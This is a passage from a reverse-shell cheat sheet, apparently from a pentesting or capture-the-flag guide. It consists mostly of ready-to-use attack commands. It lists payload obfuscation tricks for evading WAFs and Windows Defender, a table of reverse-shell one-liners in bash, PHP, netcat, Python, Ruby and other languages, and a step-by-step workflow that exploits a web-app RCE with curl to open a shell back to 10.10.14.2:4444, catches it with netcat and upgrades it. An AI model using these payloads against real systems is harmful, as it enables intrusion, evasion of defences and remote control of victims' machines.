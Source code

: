 ***

### XVI. 🧠 Payload Obfuscation & Evasion

| Technique                 | Description                                |
| ------------------------- | ------------------------------------------ |
| **Base64 Encoding**       | Simple but effective for WAF bypass        |
| **Variable Substitution** | Split IP/port into parts                   |
| **Protocol Shift**        | Use HTTPS, DNS, ICMP                       |
| **Inline Compression**    | \`gzip                                     |
| **PowerShell Encoding**   | UTF-16LE + base64 avoids Defender triggers |

Example:

```bash
bash -c {echo,YmFzaCAt...}|{base64,-d}|{bash,-i}
```

***

### XVII. ⚔️ Quick Reference Table

| Language   | Command                                                             |
| ---------- | ------------------------------------------------------------------- |
| Bash       | `bash -i >& /dev/tcp/IP/PORT 0>&1`                                  |
| Python     | `python3 -c 'import socket,pty,os;...`                              |
| PHP        | `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"); ?>` |
| Perl       | `perl -e 'use Socket;$i="IP";$p=PORT;...'`                          |
| Ruby       | `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");...'`  |
| Netcat     | `nc -e /bin/bash IP PORT`                                           |
| PowerShell | (long encoded command)                                              |
| Node.js    | `require('net').Socket()`                                           |
| Java       | `Runtime.getRuntime().exec(...)`                                    |
| Go         | `net.Dial("tcp","IP:PORT")`                                         |

***

### XVIII. 🧩 Real-World Workflow Example

```bash
# 1. Exploit web app RCE
curl "http://target/vuln.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/4444+0>%261'"

# 2. Catch the shell
nc -lvnp 4444

# 3. Upgrade to TTY
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# 4. Enumerate and escalate
whoami && id && uname -a
```
